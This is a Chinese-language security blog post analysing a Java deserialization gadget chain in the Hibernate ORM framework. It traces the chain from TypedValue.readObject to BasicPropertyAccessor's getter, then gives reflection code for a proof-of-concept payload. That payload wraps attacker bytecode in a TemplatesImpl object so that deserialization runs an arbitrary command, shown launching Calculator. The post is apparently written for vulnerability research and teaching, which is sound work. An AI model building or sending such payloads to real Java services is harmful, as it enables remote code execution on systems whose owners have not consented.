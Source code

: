 ```yaml
---
layout: post  
title: "java反序列化漏洞-金蛇剑之hibernate(上)"  
date: 2018-1-26  
description: "java漏洞"  
tag: 漏洞分析
---
```

## 前言:
  金蛇剑:此剑金光灿烂形状奇特，剑身犹如是一条蛇盘曲而成。蛇尾构成剑尖蛇头藏与剑柄，握在手中甚是沉重，原是由黄金铸造而成。此剑形状甚是奇特，整柄剑就如是一条蛇盘曲而成，蛇尾勾成剑柄，蛇头则是剑尖，蛇舌伸出分叉，是以剑尖竟有两叉。
##  主角:
 hibernate
##  介绍:
  Hibernate是一个开放源代码的对象关系映射框架，它对JDBC进行了非常轻量级的对象封装，它将POJO与数据库表建立映射关系，是一个全自动的orm框架，hibernate可以自动生成SQL语句，自动执行，使得Java程序员可以随心所欲的使用对象编程思维来操纵数据库。曾几何时，java web程序员必备面试宝典,ssh(spring+struts2+hibernate)，当年笔者上javaweb课时，老师安利ssh,可见hibernate当年影响力多大。今天笔者跟着大家一起来学习分析hibernate的反序列化漏洞。
## 正文:
 全局搜索了下关键字invoke,发现调用的地方很多。其中org.hibernate.property.BasicPropertyAccessor中BasicGetter类中get函数中调用了此函数，后面构造分析的poc都是基于此类的。
 ![](http://ohsqlm7gj.bkt.clouddn.com/18-2-6/97813600.jpg)
 根据前几篇的分析，我们大致有了思路。看能不能借助 Xalan’sTemplatesImpl的_bytecodes字段来new一个evil类，或者是借助JdbcRowSetImpl,JNDIConnectionPool来做JNDI绑定(绑定这个词我也不知道恰不恰当)。
 ![](http://ohsqlm7gj.bkt.clouddn.com/18-2-6/43839589.jpg)
 org.hibernate.engine.spi.TypedValue.TypedValue.readObject()->org.hibernate.engine.spi.TypedValue.initTransients()->org.hibernate.type.ComponentType.getHashCode()->org.hibernate.type.ComponentType.getPropertyValue()->org.hibernate.tuple.component.AbstractComponentTuplizer.getPropertyValue()->org.hibernate.property.BasicPropertyAccessor.BasicGetter.get()
 首先先看BasicGetter类，其构造函数中需要指定3个参数,class,method,propertyName
 ![](http://ohsqlm7gj.bkt.clouddn.com/18-2-6/21652608.jpg)
 有如下大致思路，将method指定为getOutputProperties,然后将target传入一个TemplatesImpl对象。其中调用的地方如下:
org.hibernate.tuple.component.AbstractComponentTuplizer.getPropertyValue()
 ![](http://ohsqlm7gj.bkt.clouddn.com/18-2-6/29845091.jpg)
 还需要利用反射区构造一个Getter数组，并且将BasicGetter放至在该数组中。代码如下:
 
	Class<?> getter = Class.forName("org.hibernate.property.Getter");
	Class<?> basicGetter = Class.forName("org.hibernate.property.BasicPropertyAccessor$BasicGetter");
	Constructor<?> bgCon = basicGetter.getDeclaredConstructor(Class.class, Method.class, String.class);
	bgCon.setAccessible(true);
	Object g = bgCon.newInstance(tplClass, tplClass.getDeclaredMethod(method), "demo");
	Object array = Array.newInstance(getter,1);
	Array.set(array,0, basicGetter);
 	
由于AbstractComponentTuplizer是抽象类，不能直接newInstance(),所以要找到AbstractComponentTuplizer的子类，有很多，比如PojoComponentTuplizer。下一步将PojoComponentTuplizer字段getter赋值为上面构造好的Getter数组。对于构造函数为非public的类，可以利用ReflectionFactory来构造实体。详情可以参考http://ju.outofmemory.cn/entry/134713。对于子类中没有，但是父类中含有的字段直接赋值是会出错的，提示java.lang.NoSuchFieldException: getters。可以采用如下方式调用:
(错误)
	
	PojoComponentTuplizer pojoComponentTuplizer = Tool.createWithoutConstructor(PojoComponentTuplizer.class);
	Tool.setFieldValue(pojoComponentTuplizer, "getters", getters);
	
(正确)
	
	PojoComponentTuplizer pojoComponentTuplizer = Tool.createWithoutConstructor(PojoComponentTuplizer.class);
	Tool.getField(AbstractComponentTuplizer.class, "getters").set(tup, getters);
	
一步一步来，根据调用链可知，下一步需要构造一个ComponentType,
ComponentType.getPropertyValue函数如下:
	
	public Object getPropertyValue(Object component, int i)
      throws HibernateException {
	   if ( component instanceof Object[] ) {
	      // A few calls to hashCode pass the property values already in an
	      // Object[] (ex: QueryKey hash codes for cached queries).
	      // It's easiest to just check for the condition here prior to
	      // trying reflection.
	      return (( Object[] ) component)[i];
	   } else {
	      return componentTuplizer.getPropertyValue( component, i );
	   }
	}

 ComponentType componentType = (ComponentType)Tool.getFirstCtor("org.hibernate.type.ComponentType").newInstance();
        Tool.setFieldValue(componentType, "componentTuplizer", pojoComponentTuplizer);
这里需要给propertySpan赋值，因为在getHashCode中，有个执行getPropertyValue的先决条件。
![](http://ohsqlm7gj.bkt.clouddn.com/18-2-6/89196032.jpg)
执行一个任意大于0的数字即可。
最后一步中的TypedValue只有两个字段，type和value，分别指向
method.invoke( target, (Object[]) null )中的method 和target，分别是TemplatesImpl.getOutputProperties和TemplatesImpl实体,TypedValue其部分关键代码如下:
![](http://ohsqlm7gj.bkt.clouddn.com/18-2-6/11663981.jpg)

最终构造poc如下:
	
	String command = "Applications/Calculator.app/Contents/MacOS/Calculator";
	Object tpl = Gadgets.createTemplatesImpl(command);
	Object getters = makeBasicGetter(tpl.getClass(), "getOutputProperties");
	PojoComponentTuplizer pojoComponentTuplizer = Tool.createWithoutConstructor(PojoComponentTuplizer.class);
	Tool.getField(AbstractComponentTuplizer.class, "getters").set(pojoComponentTuplizer, getters);
	ComponentType componentType = (ComponentType)Tool.getFirstCtor("org.hibernate.type.ComponentType").newInstance();
	Tool.setFieldValue(componentType, "componentTuplizer", pojoComponentTuplizer);
	Tool.setFieldValue(componentType, "propertySpan", 10);
	TypedValue typedValue = (TypedValue)Tool.getFirstCtor("org.hibernate.engine.spi.TypedValue").newInstance();
	Tool.setFieldValue(typedValue, "type", componentType);
	Tool.setFieldValue(typedValue, "value", tpl);

![](http://ohsqlm7gj.bkt.clouddn.com/18-2-6/73527732.jpg)
回顾下整个执行过程如下

org.hibernate.engine.spi.TypedValue.TypedValue.readObject()->org.hibernate.engine.spi.TypedValue.initTransients()->org.hibernate.type.ComponentType.getHashCode()->org.hibernate.type.ComponentType.getPropertyValue()->org.hibernate.tuple.component.AbstractComponentTuplizer.getPropertyValue()->org.hibernate.property.BasicPropertyAccessor.BasicGetter.get()
## 总结
整个执行链相对来说还是很复杂的，构造的时候需要一步一步耐心细心的分析，下一次单独讲讲出了利用TemplatesImpl之外，怎么利用JdbcRowSetImpl吧。
